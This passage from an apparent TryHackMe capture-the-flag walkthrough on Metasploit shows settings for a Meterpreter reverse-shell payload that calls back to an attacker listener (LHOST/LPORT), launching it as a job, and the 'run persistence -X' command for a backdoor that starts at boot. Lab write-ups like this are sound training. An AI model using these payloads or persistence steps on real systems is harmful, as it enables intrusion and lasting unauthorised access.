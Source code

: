 windows/meterpreter/reverse_http'. Following this, launch the attack as a job with the command 'run -j'.

```bash
Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.9.2.228       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

### #6 Last but certainly not least, let's look at persistence mechanisms via

Metasploit. What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots? Don't include anything beyond the base command and the option for boot
startup.

[Meterpreter Service | Offensive Security](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/)

```bash
run persistence -X
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/hejzVWP.png" alt="TryhackMeProfile" />
  </a>
</center>
